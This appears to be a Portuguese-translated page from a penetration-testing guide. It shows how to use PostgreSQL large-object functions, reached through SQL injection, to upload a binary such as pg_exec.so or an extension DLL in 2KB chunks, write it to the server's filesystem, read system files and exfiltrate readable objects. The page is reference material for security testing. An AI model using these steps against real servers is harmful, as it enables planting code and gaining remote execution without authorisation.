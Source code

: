 # Objetos Grandes do PostgreSQL

O PostgreSQL expõe uma estrutura chamada de **objeto grande** (**tabela pg_largeobject**), que é usada para armazenar dados que seriam difíceis de manipular em sua totalidade (como uma imagem ou um documento PDF). Ao contrário da função `COPY TO`, a vantagem dos **objetos grandes** reside no fato de que os **dados** que eles **armazenam** podem ser **exportados de volta** para o **sistema de arquivos** como uma **cópia idêntica do arquivo original importado**.

Para **salvar um arquivo completo dentro desta tabela**, você primeiro precisa **criar um objeto** dentro da tabela mencionada (identificado por um **LOID**) e, em seguida, **inserir pedaços de 2KB** dentro deste objeto. É muito importante que todos os **pedaços tenham 2KB** (exceto possivelmente o último) **ou** a função de **exportação** para o sistema de arquivos **não funcionará**.

Para **dividir** seu **binário** em **pedaços** de tamanho **2KB**, você pode fazer:
```bash
split -b 2048 pg_exec.so #This will create files of size 2KB
```
Para codificar cada um dos arquivos criados em Base64 ou Hex, você pode usar:
```bash
base64 -w 0 <Chunk_file> #Encoded in 1 line
xxd -ps -c 99999999999 <Chunk_file> #Encoded in 1 line
```
{% hint style="info" %}
Ao explorar isso, lembre-se de que você precisa enviar **pedaços de 2KB de bytes de texto claro** (não 2KB de bytes codificados em base64 ou hex). Se você tentar automatizar isso, o tamanho de um arquivo **codificado em hex** é o **dobro** (então você precisa enviar 4KB de dados codificados para cada pedaço) e o tamanho de um arquivo codificado em **base64** é `ceil(n / 3) * 4`.
{% endhint %}

Além disso, depurando o processo, você pode ver o conteúdo dos grandes objetos criados com:
```sql
 select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
# Usando lo\_creat & Base64

Primeiro, precisamos criar um LOID onde os dados binários serão salvos:
```sql
SELECT lo_creat(-1);       -- returns OID of new, empty large object
SELECT lo_create(173454);   -- attempts to create large object with OID 43213
```
Se você estiver explorando uma **Injeção de SQL cega**, você estará mais interessado em usar `lo_create` com um **LOID fixo** para que você **saiba onde** deve **fazer o upload** do **conteúdo**.\
Além disso, observe que não há erro de sintaxe, as funções são `lo_creat` e `lo_create`.

LOID é usado para identificar o objeto na tabela `pg_largeobject`. A inserção de pedaços de tamanho 2KB na tabela `pg_largeobject` pode ser realizada usando:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 1, decode('<B64 chunk2>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 3, decode('<B64 chunk2>', 'base64'));
```
Finalmente, você pode exportar o arquivo para o sistema de arquivos fazendo (durante este exemplo, o LOID usado foi `173454`):
```sql
SELECT lo_export(173454, '/tmp/pg_exec.so');
```
{% hint style="info" %}
Observe que nas versões mais recentes do postgres você pode precisar **fazer upload das extensões sem indicar nenhum caminho**. [**Leia isso para mais informações**.](rce-with-postgresql-extensions.md#rce-in-newest-prostgres-versions)
{% endhint %}

Você possivelmente pode estar interessado em excluir o objeto grande criado após exportá-lo:
```sql
SELECT lo_unlink(173454);  -- deletes large object with OID 173454
```
# Usando lo\_import & Hex

Neste cenário, lo\_import será usado para criar um objeto de grande tamanho. Felizmente, neste caso, você pode (e não pode) especificar o LOID que deseja usar:
```sql
select lo_import('C:\\Windows\\System32\\drivers\\etc\\hosts');
select lo_import('C:\\Windows\\System32\\drivers\\etc\\hosts', 173454);
```
Depois de criar o objeto, você pode começar a inserir os dados em cada página (lembre-se, você tem que inserir pedaços de 2KB):
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=2;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=3;
```
O HEX deve ser apenas o hex (sem `0x` ou `\x`), exemplo:
```sql
update pg_largeobject set data=decode('68656c6c6f', 'hex') where loid=173454 and pageno=0;
```
Finalmente, exporte os dados para um arquivo e exclua o objeto grande:
```sql
 select lo_export(173454, 'C:\\path\to\pg_extension.dll');
 select lo_unlink(173454);  -- deletes large object with OID 173454
```
{% hint style="info" %}
Observe que nas versões mais recentes do postgres você pode precisar **carregar as extensões sem indicar nenhum caminho**. [**Leia isso para mais informações**.](rce-with-postgresql-extensions.md#rce-in-newest-prostgres-versions)
{% endhint %}

# Limitações

Depois de ler a documentação de objetos grandes no PostgreSQL, podemos descobrir que **objetos grandes podem ter ACL** (Lista de Controle de Acesso). É possível configurar **novos objetos grandes** para que seu usuário **não tenha privilégios suficientes** para lê-los, mesmo que tenham sido criados pelo seu usuário.

No entanto, pode haver **um objeto antigo com uma ACL que permite que o usuário atual o leia**, então podemos exfiltrar o conteúdo desse objeto.
